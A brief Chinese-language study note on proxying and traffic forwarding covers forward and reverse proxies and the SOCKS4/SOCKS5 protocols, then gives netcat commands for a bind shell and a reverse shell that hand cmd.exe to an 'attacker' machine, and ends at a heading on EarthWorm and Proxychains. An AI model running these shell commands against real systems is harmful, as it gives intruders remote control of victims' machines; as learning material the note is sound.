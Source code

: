 ## 1.1、前言

```java
感觉自己流量代理、转发掌握的不太好，重新看一遍。
```

## 1.2、正向反向代理

正向代理，Proxy和Client同属于一个区域，对server是透明的。

（挂梯子）
反向代理：一般情况下，防火墙肯定不能让外网机器随便访问地访问内网机器，所以就提出反向代理。

## 1.3、Socks协议

中文意思：防火墙安全会话转换协议，工作在OSI参考模型的第五层（会话层）

![image-20240723144854867](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240723144854867.png)

因为Socks介于传输层与表示层之间，使用TCP协议传输数据，因而**不提供如传递ICMP信息**之类的网络层相关服务。

目前有两个版本：SOCKS4和SOCKS5

SOCKS4支持TELNET、FTPHTTP等TCP协议；

SOCKS5支持TCP与UDP，并支持安全认证方案。

Ps: Socks不支持ICMP，不能使用ping命令。。记住哦~~~

## 1.4、Natcat

### 正向连接

nc -l -p 5555 -t -e cmd.exe   受害
nc -nvv 192.168.153.138 5555  攻击

### 反向连接

nc -lp 5555   攻击
nc -t -e cmd 192.168.153.140 5555  受害

## 1.5、Earthworm+Proxychains

#### 反弹SOCKS5服务器
